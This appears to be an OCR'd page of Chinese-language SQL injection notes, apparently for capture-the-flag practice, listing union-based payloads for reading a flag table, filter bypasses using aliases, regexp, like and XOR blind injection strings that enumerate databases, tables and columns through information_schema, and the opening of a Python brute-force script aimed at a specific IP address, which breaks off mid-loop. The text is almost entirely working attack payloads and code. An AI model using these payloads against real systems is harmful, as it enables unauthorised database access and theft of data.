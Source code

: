 ```sql
select 1,2,3 union select * from flag;
select `1` from (select 1,2,3 union select * from flag)a;
select `2` from (select 1,2,3 union select * from flag)a;
当 ` 不能使用的时候，使用别名来代替：
select b from (select 1,2 as b,3 union select * from flag)a;

union all select * from (select * from users as a join users as b)as c--+
union all select * from (select * from users as a join users b using(id))c--+
union all select * from (select * from users as a join users b using(id,username))c--+
```

除了之前的`order by`盲注之外，这里再提一种新的方法，直接通过select进行盲注：
核心payload：`(select 'admin','admin')>(select * from users limit 1)`

**regexp注入**
正则注入，若匹配则返回1，不匹配返回0
binary区分大小写

```sql
select (select username from users where id=1) regexp binary '^a';
select * from users where password regexp binary '^ad';
```

`^`若被过滤，可使用`$`来从后往前进行匹配

**like注入**
百分比`%`通配符允许匹配任何字符串的零个或多个字符
下划线`_`通配符允许匹配任何单个字符

```sql
1 union select 1,database() like 's%',3 --+
1 union select 1,database() like '_____',3 --+
1 union select 1,database() like 's____',3 --+
```

**异或注入**
> 0^1 --> 1 语句返回为真
> 0^0 --> 0 语句返回为假
>
> `'1'^1^'1' --> 1` 语句返回为真
> `'1'^0^'1' --> 0` 语句返回为假

```sql
检索数据库：
id=1'^(select(ascii(mid((select(group_concat(schema_name))from(information_schema.schemata)),1,1))=104))^'1
检索表：
id=1'^(select(ascii(mid((select(group_concat(table_name))from(information_schema.tables)where(table_schema='ctf')),1,1))=104))^'1
检索字段：
id=1'^(select(ascii(mid((select(group_concat(flag))from(ctf.flag)),1,1))=104))^'1
```

脚本：
```python
import requests


dic = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_,"
url = "http://119.23.73.3:5004/?id=1'^"
keyword = "Tip"
string = ""

for i in range(1, 300):
    for j in dic:
        payload = "(select(ascii(mid((select(group_concat(schema_name))from(information_schema.schemata)),{0},1))={1}))^'1".format(str(i),ord(j))
        url_get = url + payload
```